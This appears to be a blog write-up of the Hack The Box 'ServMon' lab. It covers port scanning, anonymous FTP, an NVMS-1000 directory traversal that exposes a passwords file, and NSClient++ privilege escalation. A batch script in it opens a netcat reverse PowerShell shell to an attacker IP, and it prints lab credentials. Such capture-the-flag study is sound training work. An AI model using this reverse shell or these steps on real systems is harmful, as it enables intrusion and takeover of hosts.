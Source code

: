 ```yaml
---
title: 'ServMon HTB'
date: '2020-06-20 20:00:00'
author: fuxsocy
description: ServMon By Fuxsocy
image: 
    path: '#'
categories: ["htb"]
---
```


Hello,

This time I am writing the solution for the ServMon box. A easy windows box. Let's dive into the solution.

🔥 nmap to get the open ports.
```
nmap -sC -sV -oA initial -Pn 10.10.10.184
```
The resutls...

```
21/tcp   open  ftp           Microsoft ftpd                                                                          
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                               
|_01-18-20  12:05PM       <DIR>          Users                                                                       
| ftp-syst:                                                                                                          
|_  SYST: Windows_NT                                                                                                 
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)       
| ssh-hostkey:                                                                                                       
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)                                                       
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)                                                      
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)                                                    
80/tcp   open  http                                                                                                  
| fingerprint-strings:                                                                                               
|   GetRequest, HTTPOptions, RTSPRequest:                                                                            
|     HTTP/1.1 200 OK                                                                                                
|     Content-type: text/html                                                                                        
|     Content-Length: 340                                                                                                                                                                                                                  
|     Connection: close                                                                                              
|     AuthInfo:                                                                                                      
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">                                                                    
|     <head>                                                                                                         
|     <title></title>                                                                                                
|     <script type="text/javascript">                                                                                
|     window.location.href = "Pages/login.htm";                                                                      
|     </script>                                                                                                      
|     </head>                                                                                                        
|     <body>                                                                                                         
|     </body>                                                                                                        
|     </html>                                                                                                        
|   NULL:                                                                                                            
|     HTTP/1.1 408 Request Timeout                                                                                   
|     Content-type: text/html                                                                                        
|     Content-Length: 0                                                                                              
|     Connection: close                                                                                              
|_    AuthInfo:                                                                                                      
|_http-title: Site doesn't have a title (text/html).                                                                 
135/tcp  open  msrpc         Microsoft Windows RPC                                                                   
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                           
445/tcp  open  microsoft-ds?                                                                                         
5666/tcp open  tcpwrapped                                                                                            
6699/tcp open  tcpwrapped                                                                                            
8443/tcp open  ssl/https-alt
| fingerprint-strings:                                  
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404  
|     Content-Length: 18
|     Document not found
|   GetRequest:            
|     HTTP/1.1 302                            
|     Content-Length: 0             
|_    Location: /index.html              
| http-title: NSClient++               
|_Requested resource was /index.html                      
| ssl-cert: Subject: commonName=
```

First of all the one port I will look is ftp because I have anonymous access allowed. 
There is a directory named Users and inside that there are two directories `Nadine` and `Nathan` containing two files named `Confidential.txt` and `Notes to do.txt` respectively. It is a good thing at this time to keep notes about these two usernames. 

The content of `Confidential.txt`:
```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
I keep in back of my mind that there is file named Passwords.txt in Nathan Desktop folder.

And `Notes to do.txt`:
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

There are some incompleted todo's such as remove public access to NVMS. Remember port 80? Let's take a look into that.

![port80vms](https://user-images.githubusercontent.com/16364370/79076621-8d5a5680-7cc9-11ea-9e9e-bfe92a2143e5.png)

So this validates the 4th todo. I try to login by using `admin` as username and password but nothing. At this point because I don't have a password, I try to search about vulnerabilites.

![directory_traversalt_nvms1000](https://user-images.githubusercontent.com/16364370/79076663-fb9f1900-7cc9-11ea-97c4-0d60d87643ce.png)

![dir_traversal](https://user-images.githubusercontent.com/16364370/79076787-ce069f80-7cca-11ea-8ad2-59de22089166.png)

I open burp, navigate to 10.10.10.184 intercept the request and then send it to repeater(ctrl+r).

![verify_path_traversa](https://user-images.githubusercontent.com/16364370/79077401-69017880-7ccf-11ea-8627-919d5193e196.png)

And indeed this works. Now If you remember from `Confidential.txt` there is a file with passwords. I get that file.

![get_password_file](https://user-images.githubusercontent.com/16364370/79077424-b1209b00-7ccf-11ea-93c6-0fe63986809e.png)

After trying each of this password with ssh password `L1k3B1gBut7s@W0rk` worked.

```
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>         
```
We can get user flag now. 

After searching the box for hints about root, I find nothing. Going back to nmap we can see a port open `84433` wiht ssl cert. Visiting the site brings up a `NSClient++`.

Searching with searchsploit turns out there is a privilege escalation.

First we need to get the password of the client from file `c:\program files\nsclient++\nsclient.ini`

```
; Undocumented key                                        
password = ew2x6SsGTxjRwXOT  
```

But the password does not work. Giving us a 403.

![notallowed](https://user-images.githubusercontent.com/16364370/79077749-a2d37e80-7cd1-11ea-9494-497260d5952a.png)
Going back to the `nsclient.ini` file I see there is present a configuration which does not allow connections from 
```
; Undocumented key
allowed hosts = 127.0.0.1
````
Because I am using ssh I can create a local tunnel from my host to nsclient locally and then access it. By doing this I use a [trick](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) to access something like a hidden menu on ssh, and then execute
`-L 8443:127.0.0.1:8443`. And then go to my browser and access the website with `https://localhost:8443`

I now create a .bat script
```
@echo off
C:\Temp\nc.exe 10.10.14.52 9854 -e powershell
```
and upload it alongside nc.exe inside `C:\Temp\` and setup listener on our local box

Next step is to enable two modules:
 - CheckExternalScripts
 - Scheduler

After I create a externalscript, with these key and value.(replace fuxsocy.bat with your .bat filename)

![extscript](https://user-images.githubusercontent.com/16364370/79078083-ed55fa80-7cd3-11ea-9ba3-7a07fd66b31d.png)

Next I setup to run it every minute.

![timer](https://user-images.githubusercontent.com/16364370/79078482-af0e0a80-7cd6-11ea-8c8c-878907d3f63f.png)

and specify the command, which in our case is rce, which is the name of the external script which will execute the command.

![rce](https://user-images.githubusercontent.com/16364370/79078149-5473af00-7cd4-11ea-8c9a-7633d5dd813c.png)

Then I save the Changes under the `Changes` button and Under `Control` button I reset the service. I wait for 1-2 minutes and get a shell as administrator.

![shell_as_admistrator](https://user-images.githubusercontent.com/16364370/79078514-e1b80300-7cd6-11ea-901b-ad1dfffc54c7.png)
